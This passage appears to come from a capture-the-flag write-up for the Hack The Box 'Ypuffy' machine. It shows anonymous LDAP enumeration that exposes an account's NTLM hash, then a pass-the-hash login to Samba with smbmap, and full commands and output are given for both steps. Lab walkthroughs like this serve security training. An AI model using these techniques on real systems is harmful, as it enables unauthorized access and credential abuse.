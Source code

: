 To enumerate the LDAP, we need to give it the base dn to for the search. When I checked the output from nmap I saw the `ypuffy.hackthebox.htb` FQDN from the SMB discovery script. So I tried `hackthebox.htb` as domain to search from, luckily the box doesn't require authentication to pull data from it.

The most interesting entry is this one for `alice1978` because it contains an NTLM hash. The `userPassword` field is not useful, it just contains `{BSDAUTH}alice1978` in base64 encoded format.

```
root@ragingunicorn:~# ldapsearch -h 10.10.10.107 -x -b "dc=hackthebox,dc=htb"
[...]
# alice1978, passwd, hackthebox.htb
dn: uid=alice1978,ou=passwd,dc=hackthebox,dc=htb
uid: alice1978
cn: Alice
objectClass: account
objectClass: posixAccount
objectClass: top
objectClass: sambaSamAccount
userPassword:: e0JTREFVVEh9YWxpY2UxOTc4
uidNumber: 5000
gidNumber: 5000
gecos: Alice
homeDirectory: /home/alice1978
loginShell: /bin/ksh
sambaSID: S-1-5-21-3933741069-3307154301-3557023464-1001
displayName: Alice
sambaAcctFlags: [U          ]
sambaPasswordHistory: 00000000000000000000000000000000000000000000000000000000
sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B
sambaPwdLastSet: 1532916644
[...]
```

### Passing the hash

The first thing I did was look up the NT hash online to see if I could quickly get the password but I didn't find any match for this one. It probably uses a strong password which I won't waste time cracking.

![](/assets/images/htb-writeup-ypuffy/ntlm.png)

We don't have the password but we can pass the hash to the Samba server and list the shares:

```
root@ragingunicorn:~# smbmap -u alice1978 -p '00000000000000000000000000000000:0B186E661BBDBDCF6047784DE8B9FD8B' -d hackthebox.htb -H 10.10.10.107
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authentiate
[+] User session establishd on 10.10.10.107...
[+] IP: 10.10.10.107:445	Name: 10.10.10.107                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	alice                                             	READ, WRITE
	IPC$                                              	NO ACCESS
```
